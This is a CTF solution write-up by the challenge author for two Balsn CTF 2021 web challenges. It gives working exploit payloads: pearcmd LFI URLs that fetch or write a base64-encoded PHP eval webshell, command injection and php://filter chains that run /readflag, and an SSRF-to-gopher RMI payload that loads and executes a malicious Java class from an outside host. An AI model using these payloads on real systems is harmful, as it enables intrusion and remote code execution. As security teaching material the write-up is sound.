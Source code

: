 # Balsn CTF 2021

# 2linephp

- Difficulty: ★
- Type: Web
- Solved: 8 / 284
- Tag: Warmup, PHP

## Source Code

- [2linephp](https://github.com/w181496/My-CTF-Challenges/blob/master/Balsn-CTF-2021/2linephp/)

## Solution

In 2020, I have made a similar challenge in a chinese CTF.

But the difference is that we can't use http/https and our webshell should start with `<?php`.

### Intened Solution
- `/?+channel-discover+kaibro.tw/302.php?&kaibro=/usr/local/lib/php/pearcmd`
    - 302.php will redirect to http://kaibro.tw/test.php
    - pear will download test.php to `/tmp/pear/temp/test.php`

### Unintended Solution

There are many interesting unintended solutions :D

- sol1 - command injection (from 0daysober)
    - `/?+install+-R+&kaibro=/usr/local/lib/php/pearcmd&+-R+/tmp/other+channel://pear.php.net/Archive_Tar-1.4.14`
    - `/?+bundle+-d+/tmp/;echo${IFS}PD9waHAgZXZhbCgkX1BPU1RbMF0pOyA/Pg==%7Cbase64${IFS}-d>/tmp/hello-0daysober.php;/+/tmp/other/tmp/pear/download/Archive_Tar-1.4.14.tgz+&kaibro=/usr/local/lib/php/pearcmd&`
    - `/index.php?+svntag+/tmp/;echo${IFS}PD9waHAgZXZhbCgkX1BPU1RbMF0pOyA/Pg==%7Cbase64${IFS}-d>/tmp/hello-0daysober.php;/Archive_Tar+&kaibro=/usr/local/lib/php/pearcmd&'`
- sol2 - php filter (from 10sec)
    - `/?+config-create+/&eHh4eD4qKipQRDl3YUhBZ2MzbHpkR1Z0S0NSZlIwVlVXMk50WkYwcE96czdQejRn<&kaibro=/usr/local/lib/php/pearcmd&/<meow>+/tmp/meoww.php`
    - `/?kaibro=php%3a//filter/read=string.strip_tags%7Cconvert.base64-decode%7Cstring.strip_tags%7Cconvert.base64-decode/resource=/tmp/meoww&cmd=/readflag`
- and more!

## Writeups

- [maple3142's writeup](https://blog.maple3142.net/2021/11/21/balsn-ctf-2021-writeups/#linephp)

---

# 4pple Music

- Difficulty: ★★
- Type: Web
- Solved: 2 / 284
- Tag: Java, RealWorld, BlackBox, Pentesting

## Source Code

- [4pple Music](https://github.com/w181496/My-CTF-Challenges/blob/master/Balsn-CTF-2021/4ppleMusic/)

## Solution

1. Find the SSRF vulnerability

```
POST /index.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Connection: close

url=http://kaibro.tw
```

2. Port Scanning to `flagserver.local`

There are many open ports on `flagserver.local`, like `34571`, `34572`, ...

If you visit http://flagserver.local:34572, you will see the following response:

```xml
<OBJECT
    NAME = "%APPLICATION%"
    classid = "clsid:8AD9C840-044E-11D1-B3E9-00805F499D93"
    codebase = "http://java.sun.com/products/plugin/autodl/jinstall-1_4_2_05-windows-i586.cab#Version=1,4,1,3"
    WIDTH = 100% HEIGHT = 100% >
    <PARAM NAME=CODE VALUE=com.ibm.sysmgt.raidmgr.mgtGUI.Launch>
    <PARAM NAME="type" VALUE="application/x-java-applet;jpi-version=1.4.2_05">
    <PARAM NAME="scriptable" VALUE="false">
    <PARAM NAME="cache_option" VALUE="Plugin">
    <PARAM NAME="cache_archive" VALUE="RaidManS.jar">
    <PARAM NAME="progressbar" value="true">
    <PARAM NAME="boxmessage" value="Loading %APPLICATION% ...">
    <PARAM NAME="progresscolor" value="blue">
    <PARAM NAME="image" value="help/scan_l.gif">
    <PARAM NAME="bgColor" VALUE="FFFFFF">
    <COMMENT>
	<EMBED
            NAME= "StorageManager"
            type = "application/x-java-applet;jpi-version=1.4.2_05"
            CODE = com.ibm.sysmgt.raidmgr.mgtGUI.Launch
            WIDTH = 100%
            HEIGHT = 100%
	        scriptable="false"
	        pluginspage="http://java.sun.com/getjava"
            image="/help/scan_l.gif"
            cache_option="Plugin"
            cache_archive="RaidManS.jar"
            progressbar="true"
            boxmessage="Loading %APPLICATION%..."
            progresscolor="blue"
            bgColor="FFFFFF">
	    <NOEMBED>
        Your browser can not load the Sun Java Applet Plugin...
        </NOEMBED>
	</EMBED>
    </COMMENT>
</OBJECT>
```

Try to google these keywords, and you will find `Adaptec Storage Manager`.

(The 404 page also tell you this is Adaptec Storage Manager Server: `Adaptec Storage Manager File Server:  Error 404.`)

So our target is to pwn this Adaptec Storage Manager server!

3. Attack RMI

If you [install Adaptec Storage Manager](https://adaptec.com/en-us/downloads/storage_manager/sm/productid=sas-3085&dn=adaptec+raid+3085.html) on your local machine or decompiling the RaidManS.jar, you will find that 34571 port is **RMI Registry** Service.

Next, you can send RMI header packet with `gopher://` to verify it:

```
url=gopher://flagserver.local:34571/_JRMI%2500%02K%2500%2500%2500%2500%2500%2500
```

->

```
N
172.18.0.3�z
```

Next step is to attack this RMI service and find the flag.

Because this service is very old (the newest release date is `25 Aug 2010`), so the jdk is very likely to be old too.

(In the old jdk version (< 6u45/7u21), if RMI can't find the class, it will try to load the class from the codebase.)

So we can try to attack the codebase, setting the codebase to our server:

```
gopher://flagserver.local:34571/_JRMI%2500%2502K%2500%2500%2500%2500%2500%2500P%25AC%25ED%2500%2505w%2522%2500%2500%2500%2500%2500%2500%2500%2502%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%25F6%25B6%2589%258D%258B%25F2%2586Cur%2500%2518%255BLjava.rmi.server.ObjID%253B%2587%2513%2500%25B8%25D0%252Cd%257E%2502%2500%2500pxp%2500%2500%2500%2500w%2508%2500%2500%2500%2500%2500%2500%2500%2500sr%2500%2510kaibro.RMILoader%2500%2500%2500%2500%2500%2500%2500%2501%2502%2500%2500t%2500%2516http%253A%252F%252F30cm.club%252F%252F%252F%252F%252F%252Fxpw%2501%2500%250A
```

This payload will download my [malicious class file](https://github.com/w181496/My-CTF-Challenges/blob/master/Balsn-CTF-2021/4ppleMusic/exploit/kaibro/RMILoader.java) from `http://30cm.club/kaibro/RMILoader.class` and execute it!

=> RCE!



Note: you should use correct jdk version to compile this malicious class, you can simply send a http request to your server and observe the user-agent to know the jdk version of the RMI service:

`HTTP/1.1" 200 1395 "-" "Java/1.6.0_16"`


<br>

(Actually, this is a realworld case reproduced. Maybe it is boring, but I think it is suitable for people to learn how to attack RMI in realworld.)

## Writeups
- TBD
